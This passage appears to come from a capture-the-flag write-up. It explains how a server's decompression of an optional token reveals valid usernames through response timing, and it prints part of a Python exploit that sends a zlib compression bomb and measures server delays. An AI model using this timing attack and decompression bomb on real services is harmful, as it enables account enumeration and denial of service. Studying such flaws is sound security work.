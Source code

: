 ```python
      return False
```

Looking at the client code, we can see user data is separated with `\x02\x01\x02\x01`.

In the `process` function, called only if the username is valid, we can see that the server is checking if `data[3]` contains `EOS`, if not it decompresses the token. That means that if we send a `get_challenge` packet (Opcode 1), with a **fourth field** (a token), it will **decompress** this field and will not go to `time.sleep(3) # Sleep for blocking bruteforce attacks`!

**Decompressing data can take time**, and because **`process()` is only called when a user is valid**, we can guess if the username is valid by looking at the response time. Let’s try to exploit this flaw!

First of all, we have to guess which username is valid… This little exploit will help you.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = 'nightlydev <n.chatelain[at]sysdream.com>'
from timeit import default_timer
from zlib import compress, decompress
import socket
from numpy import mean
import time

class TimingAttack:
  def __init__(self,target):
    self.payload = None
    self.bombtimer = None
    self.target = target
    # We generate a ZIP Bomb to make the server lag.
    self.generate_exploit()
    print("[~] Timing attack ready.")

  def generate_exploit(self):
    # We compress a lot of "zeroes", small payload to send, but can take some time to decompress :) !
    print("[~] Generating bomb...")
    start = default_timer()
    self.payload = compress('0'*40000000)
    stop = default_timer()
    print("[+] Bomb generated - Took: %f to compress." % (stop - start))
    time.sleep(1)
    # We try to decompress the payload, which will be used as a trigger
    start = default_timer()
    decompress(self.payload)
    stop = default_timer()
    self.bombtimer = (stop - start)/2 # You have to adjust this offset if you have a lot of false positives
    print("[+] Bomb test - Time offset set: %f." % self.bombtimer)

  def create_socket(self):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(self.target)
    return s

  def avg_timer(self):
    # We first need to get the average response time of the server.
    timers = []
    sock = self.create_socket()
    for x in range(0,50):
      took = self.send_exploit(x)
      timers.append(took)
    print("[~] Average response time: %f" % mean(timers))
```